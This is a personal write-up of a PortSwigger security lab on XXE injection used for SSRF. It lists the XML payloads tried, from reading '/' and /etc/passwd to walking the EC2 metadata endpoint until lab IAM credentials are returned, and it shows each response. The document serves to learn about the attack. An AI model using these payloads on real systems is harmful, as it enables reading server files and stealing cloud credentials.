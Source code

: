 Lab: Exploiting XXE to perform SSRF attacks
https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

what we know:
EC2 metadata endpoint -  http://169.254.169.254/

test1:
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "file:///"> ]>
<stockCheck>
<productId>
&aparecium;
</productId>

response: ls of /

test2:
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "file:///etc/passwd"> ]>

response:
...
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
...

xxe exist - v
lets try to get data from another server:

<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/"> ]>
response: "Invalid product ID: latest"
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/"> ]>
response: "Invalid product ID: meta-data"
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/meta-data"> ]>
response: "Invalid product ID: iam"
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
response: "Invalid product ID: security-credentials"
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/meta-data/security-credentials"> ]>
response: "Invalid product ID: admin"
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/meta-data/security-credentials/admin"> ]>
response: "Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2022-06-14T19:32:05.404485039Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "DyhKrjoWZ3sc7baHwQOz",
  "SecretAccessKey" : "wybIAzOjsBIjJfZobUvkIe3stXf96BH9IZnMEMKH",
  "Token" : "y03qB1O1t6Ecx67K3Rtf41tbLLn3jVU4T82HCHLUUNueNHNRw4jbLTV7qoVOFDSa2Dg5oy0q04etSvN5eEFbSZPpgjCpYKMqugmv0n8cu5JVm0CdBD0sFwihUG0AharGqkz6KxZSkwAMlkGVHkjYUEsrGUkLgksBLqVcK0UmAtUgbXMmj5rWYenmFLJy8pb3En1fHmOyZXJanvzvfiIwZTzm3dqlb3CdfZrK4Ox2KliLpSMsr5iOSvgOQA2erVK7",
  "Expiration" : "2028-06-12T19:32:05.404485039Z"
}"


<!-- assitance materials:
  xxe  explanation:https://portswigger.net/web-security/xxe
  ssrf explanation:https://portswigger.net/web-security/ssrf
  ec2 explanation: https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
  IAM role explanation: https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html -->